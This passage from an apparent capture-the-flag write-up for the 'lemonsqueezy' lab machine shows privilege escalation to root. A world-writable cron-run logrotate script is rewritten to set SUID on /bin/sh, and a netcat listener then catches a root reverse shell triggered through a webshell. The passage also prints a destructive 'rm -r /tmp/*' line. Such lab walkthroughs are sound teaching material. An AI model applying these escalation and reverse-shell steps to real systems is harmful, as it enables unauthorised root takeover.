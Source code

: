 ```bash
```
Though logrotate is a common cron task, it's unusual to see it in the crontab file, and running so often (every 2 minutes it looks like?). Checking out the code:
```bash
www-data@lemonsqueezy:/var/www/html/wordpress$ cat /etc/logrotate.d/logrotate
#!/usr/bin/env python
import os
import sys
try:
   os.system('rm -r /tmp/* ')
except:
    sys.exit()
```
Finally the script permissions - the file is world-writable.
```bash
www-data@lemonsqueezy:/var/www/html/wordpress$ ls -l /etc/logrotate.d/logrotate
-rwxrwxrwx 1 root root 101 Apr 26  2020 /etc/logrotate.d/logrotate
```

### 8. Escalate to root
The /bin/sh binary can be given SETUID permissions so that any shell spawned with it is spawned as root.
```bash
www-data@lemonsqueezy:/var/www/html/wordpress$ nano /etc/logrotate.d/logrotate
www-data@lemonsqueezy:/var/www/html/wordpress$ cat /etc/logrotate.d/logrotate
#!/usr/bin/env python
import os
import sys
try:
   os.system('chmod u+s /bin/sh')
except:
    sys.exit()
```
After this, exit the shell, wait a few minutes then spawn another one by triggering another reverse shell using the webshell. Since the shell is spawned using /bin/sh, we go straight to root.
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [192.168.34.138] from (UNKNOWN) [192.168.34.147] 54390
whoami
root
```